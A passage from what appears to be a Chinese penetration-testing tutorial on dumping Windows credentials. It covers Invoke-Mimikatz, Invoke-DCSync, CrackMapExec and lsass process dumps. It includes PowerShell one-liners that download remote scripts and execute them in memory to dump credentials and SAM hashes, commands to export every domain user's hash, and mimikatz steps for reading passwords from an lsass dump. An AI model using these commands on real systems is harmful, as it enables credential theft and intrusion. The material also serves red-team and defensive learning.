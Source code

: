 这个是 mimikatz 的 powershell 版本，也经常用于在内网渗透中，相对于 exe 的版本会方便许多。

该脚本集成在 [PowerSploit](https://link.zhihu.com/?target=https%3A//github.com/PowerShellMafia/PowerSploit) 项目中，下载地址：[Invoke-Mimikatz.ps1](https://link.zhihu.com/?target=https%3A//github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

这个工具在另外一篇文章有写过具体的用法 [Powershell 在渗透测试中的利用](https://link.zhihu.com/?target=https%3A//xxe.icu/posts/powershell-attack/%23invoke-mimikatz)

*   无文件读取方式

`powershell powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"`

*   读取 sam 数据库

`powershell powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -Command \"privilege::debug token::elevate lsadump::sam exit\""`

在这里插一点内容，主要是获取域用户的 hash 值，也可以使用 [Empire](https://link.zhihu.com/?target=https%3A//github.com/EmpireProject/Empire) 的 [Invoke-DCSync.ps1](https://link.zhihu.com/?target=https%3A//github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-DCSync.ps1) 工具来获取：

```
导出域内所有用户的hash
Invoke-DCSync -DumpForest | ft -wrap -autosize
导出指定账户的hash
Invoke-DCSync -DumpForest -Users @("administrator") | ft -wrap -autosize

```

### CrackMapExec

该工具也可以导出 hash，而且还是批量的，具体在官方 gitbook 上写得很明细了，这里不再展开，后续会专门写一遍关于该工具的文章。

安装方法：

[https://mpgn.gitbook.io/crackmapexec/getting-started/installation](https://link.zhihu.com/?target=https%3A//mpgn.gitbook.io/crackmapexec/getting-started/installation)

导出凭证（需要有管理员权限）：

[https://mpgn.gitbook.io/crackmapexec/smb-protocol/obtaining-credentials](https://link.zhihu.com/?target=https%3A//mpgn.gitbook.io/crackmapexec/smb-protocol/obtaining-credentials)

### 转储 lsass 进程

因为我们的凭证除了报错在 sam 文件中，还可以在 lsass 进程保存，现在找到 lsass 进程, 然后创建转储文件：

![](https://pic4.zhimg.com/v2-48cc7e49273b9799b1af3568d6eb116f_r.jpg)

一般会保存在`C:\Users\用户名\AppData\Local\Temp\lsass.DMP`

将该文件下载回来放置在 Mimikatz 的同目录下，然后执行：

```
sekurlsa::minidump lsass.DMP
sekurlsa::logonPasswords full

```
